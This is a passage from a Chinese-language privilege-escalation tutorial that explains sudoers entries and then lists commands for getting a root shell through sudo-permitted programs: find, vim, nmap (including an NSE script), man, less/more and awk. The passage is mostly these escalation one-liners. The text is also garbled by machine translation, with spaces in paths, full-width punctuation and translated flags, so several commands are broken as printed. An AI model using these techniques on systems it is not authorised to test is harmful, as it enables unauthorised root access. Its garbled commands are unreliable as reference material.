 第一部分是用户，第二部分是用户可以在其中使用 sudo 命令的终端，第三部分是他可以充当的用户，最后一部分是他在使用时可以运行的命令。 sudo
```
touhid ALL= /sbin/poweroff
```
以上命令，使用户可以从任何终端使用touhid的用户密码关闭命令电源。

```
touhid ALL = (root) NOPASSWD: /usr/bin/find
```
上面的命令，使用户可以从任何终端运行，以root用户身份运行命令find 而无需密码。


## 9.1、利用SUDO用户
**要利用sudo用户，您需要找到您必须允许的命令。**
```
sudo -l
```
上面的命令显示了允许当前用户使用的命令。

**使用查找命令**
```
sudo find / etc / passwd -exec / bin / sh \;
sudo find / bin -name nano -exec / bin / sh \;
```

**使用Vim命令**
```
sudo vim -c'！sh'
```

**使用Nmap命令**
```
sudo nmap-交互式
nmap>！sh
sh-4.1＃
```

**没有互动的最新方式**
```
echo“ os.execute（'/ bin/ sh'）”> /tmp/shell.nse && sudo nmap --script = / tmp / shell.nse
```

**使用Man命令**
```
sudo man man
```
之后按！按下并按Enter

**使用更少/更多命令**
```
sudo less / etc / hosts
sudo more / etc / hosts
```
之后按！按下并按Enter

**使用awk命令**
```
sudo awk'BEGIN {system（“ / bin / sh”）}'
```
